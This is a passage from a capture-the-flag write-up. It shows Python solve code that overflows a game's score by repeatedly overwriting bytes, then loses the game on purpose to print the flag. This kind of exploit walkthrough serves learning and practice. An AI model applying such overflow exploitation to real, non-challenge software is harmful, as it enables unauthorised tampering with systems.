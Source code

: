 I simulate increasing the score in the API so I can keep track of the score. Finally, here is my code to solve the overflow problem:

```py
score = game(r, 1, 1, score)
log.info("Initiating greedy strategy...")
# Optimal solution is to add 2, then overwrite as many 
# bytes as possible, until we reach n * 2 digits of 0xf
for i in range(2, 9):
    log.info("Trying {} bytes...".format(i))
    while True:
        score = game(r, 2, get_full(score + 2), score)
        log.info(hex(score))
        if score == 16 ** (i * 2) - 1:
            break
    log.success("Score is now {} bytes long.".format(i))
log.success("Greedy strategy complete.")
```

For the first byte, the strategy is a little different since the initial score is 0x0, so we have to increment score by 1, and then overflow.

## Pwned!

The rest is simple. We simply lose the game, and then the flag is printed along with the name and score.

```py
r.recvuntil("> ")
r.sendline("0")

r.interactive()
```

My full code is in [solve.py](solve.py)

